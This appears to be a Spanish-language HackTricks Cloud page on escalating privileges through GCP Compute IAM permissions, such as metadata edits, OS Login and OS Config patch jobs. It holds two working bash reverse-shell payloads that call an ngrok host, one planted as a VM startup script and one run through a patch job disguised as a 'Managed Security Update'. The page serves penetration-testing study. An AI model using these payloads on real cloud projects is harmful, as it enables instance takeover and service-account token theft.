 # GCP - Compute Privesc

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (red) en GCP revisa:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Ten en cuenta que para realizar todos los ataques de escalada de privilegios que requieren modificar los metadatos de la instancia (como agregar nuevos usuarios y claves SSH) es **necesario que tengas permisos `actAs` sobre el SA adjunto a la instancia**, ¡incluso si el SA ya está adjunto!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con ese permiso puedes **modificar** la **información de metadatos** de una **instancia** y cambiar las **claves autorizadas de un usuario**, o **crear** un **nuevo usuario con permisos de sudo**. Por lo tanto, podrás ejecutar vía SSH en cualquier instancia de VM y robar la Cuenta de Servicio de GCP con la que se está ejecutando la Instancia.\
Limitaciones:

* Ten en cuenta que las Cuentas de Servicio de GCP que se ejecutan en instancias de VM por defecto tienen un **alcance muy limitado**
* Necesitarás ser **capaz de contactar con el servidor SSH** para iniciar sesión

Para más información sobre cómo explotar este permiso revisa:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

También podrías realizar este ataque agregando un nuevo script de inicio y reiniciando la instancia:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Este permiso otorga **los mismos privilegios que el permiso anterior** pero sobre instancias específicas en lugar de todo un proyecto. **Se aplican los mismos exploits y limitaciones que en la sección anterior**.

### `compute.instances.setIamPolicy`

Este tipo de permiso te permitirá **asignarte un rol con los permisos anteriores** y escalar privilegios abusando de ellos.

### **`compute.instances.osLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso puedes simplemente ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. **No tendrás privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin está habilitado en la instancia**, con este permiso puedes simplemente ejecutar **`gcloud compute ssh [INSTANCE]`** y conectarte a la instancia. Tendrás **privilegios de root** dentro de la instancia.

{% hint style="success" %}
Para iniciar sesión con éxito con este permiso dentro de la instancia VM, necesitas tener el permiso `iam.serviceAccounts.actAs` sobre la SA adjunta a la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es posible **crear una máquina virtual con una Service Account asignada y robar el token** de la service account accediendo a los metadatos para escalar privilegios.

El script de exploit para este método se puede encontrar [aquí](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si tienes los permisos **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puedes crear un [**patch job o deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Esto te permitirá moverte lateralmente en el entorno y obtener ejecución de código en todas las instancias de compute dentro de un proyecto.

Ten en cuenta que por el momento **no necesitas permiso `actAs`** sobre la SA adjunta a la instancia.

Si deseas explotar esto manualmente, necesitarás crear un [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **o** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Para un patch job ejecuta:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Para desplegar una implementación de parche:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
La herramienta [patchy](https://github.com/rek7/patchy) podría haberse utilizado en el pasado para explotar esta mala configuración (pero ahora no funciona).

**Un atacante también podría abusar de esto para persistencia.**

### `compute.machineImages.setIamPolicy`

**Concédete permisos adicionales** a la imagen de cómputo.

### `compute.snapshots.setIamPolicy`

**Concédete permisos adicionales** a una instantánea de disco.

### `compute.disks.setIamPolicy`

**Concédete permisos adicionales** a un disco.

### Bypass Access Scopes

Siguiendo este enlace encontrarás algunas [**ideas para intentar eludir los access scopes**](../).

### Local Privilege Escalation en instancia de GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencias

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
